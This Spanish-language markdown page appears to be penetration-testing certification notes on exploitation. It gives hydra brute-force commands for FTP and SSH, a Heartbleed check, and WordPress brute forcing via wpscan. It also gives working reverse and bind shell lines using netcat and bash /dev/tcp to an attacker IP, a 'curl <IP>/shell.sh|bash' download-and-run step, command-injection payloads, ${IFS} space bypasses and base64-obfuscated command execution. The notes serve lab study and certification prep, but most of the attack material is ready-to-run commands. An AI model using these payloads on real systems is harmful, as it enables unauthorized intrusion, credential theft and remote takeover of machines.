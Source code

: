 ## Explotación
### Indice
- [FTP](#exftp)
- [SSH](#exssh)
- [HTTP SSL](#exssl)
- [Wordpress](#exwp)
- [Reverse Shell](#shell)
- [Inyeccion comandos](#inyeccion_comandos)
 <a name="exftp"></a>
### FTP
 
Dockers de pruebas
```
1. https://github.com/garethflowers/docker-ftp-server
2. https://github.com/metabrainz/docker-anon-ftp
```

Fuerza bruta: ``` hydra -l user -P passwords.txt ftp://172.17.0.2```

 * Con -l le especificamos un usuario, con -L le especificamos un diccionario de usuarios. igual para la contraseña
 
Si aparece la version, se podría mirar algun exploit.
 
<a name="exssh"></a>
 ### SSH
 
Docker de pruebas ```https://hub.docker.com/r/linuxserver/openssh-server ```
Fuerza bruta: ``` hydra -l user -P passwords.txt ssh://172.17.0.2 -s 2222```

 <a name="exssl"></a>
## HTTPS SSL

 Docker de pruebas
 ```https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160```
  
 Ver vulnerabilidades en certificados SSL:
 ```sslscan google.com:443```  
 algunas maquinas son vulnerables a Heartbleed, lo que consigue hacer un dump de la memoria en la que podemos llegar a encontrar claves privadas, nombres de usuario, contraseñas...

<a name="exwp"></a>
 ## Wordpress
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```

 ## Reverse, Bind, Forward Shells
 
 Suponiendo que conseguimos realizar ejecución remota de comandos, podriamos tratar de enviarnos una shell interactiva desde la cual movernos por el sistema atacado. Tenemos 3 tipos:
 <a name="shell"></a>
 ### Reverse shell
 La víctima nos envía una shell interactiva a nosotros, que estremos a la escucha con netcat. En [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) tenemos diferentes maneras de ejecutar la shell remota según los recursos que dispongamos. Solamente deberíamos estar a la escucha con netcat de la siguiente manera:
 ```
 nc -nlvp 443
 ```
 ### Bind shell
 La conexión es igual que la anterior solo que de manera inversa. en este caso el atacante es el que está a la escucha pero ofreciendo una bash, para ello:
 ```
 Victima: nc -nlvp 443 -e /bin/bash
 Atacante: nc <ip> <puerto>
 ```
 
 ### Forward Shell
 Es una manera de evitar las restricciones que pudieramos tener a la hora de establecer una conexión, por ejemplo si a través de fiewall nos capasen los puertos. La consola no es 100% interactiva pero se puede simular.
 
 Para ello necesitamos poder subir archivos, y subiriamos el php reverse shell de pentestmonkey. y nos descargamos el siguiente ejecutable: [TTYoverHTTP](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py) 
 la manera de proceder es la siguiente:
 ```
 1. subir el fichero cmd.php (o como le queramos llamar)
 2. Editar si fuera necesario el ttyoverhttp, con la ruta y el nombre del fichero para decirle donde se ubica el php reverse shell
 3. Ejecutar tty_over_http.py
 ```


 <a name="inyeccion_comandos"></a>

### Experiencias con Reverse Shell  

#### Si no deja introducir espacios en blanco, lo mejor es: 
1º Crear un fichero .sh que contenga el código de la reverse shell  
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/443 0>&1'
```
2º Montar un servidor web para ofrecer el fichero  
```
python3 -m http.server 80
```
3º En la parte donde podamos inyectar el comando:
```
curl <IP>/shell.sh|sh
o
curl <IP>/shell.sh|bash
```
### Inyección de comandos WEB  

hay varias maneras de inyectar comandos, por ejemplo en burpsuite. Si identificamos un campo, lugar donde creemos que se pueda inyectar comandos, aquí se listan varias opciones para hacerlo.  
```
$(comando)
;comando
;comando;
;comando;#

No todos los comandos funcionan, probar con: id, whoami, ps, ls ...
```

Si no nos permite espacios:  
```
Cambiamos el espacio por ${IFS} ejemplo:
echo${IFS}hola${IFS}mundo
```

Conversión a base64 (para evitar el error con caracteres no permitidos, como el &)
```
# Bash B64 Ofuscated
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/tree/main"> Menú Principal</a>
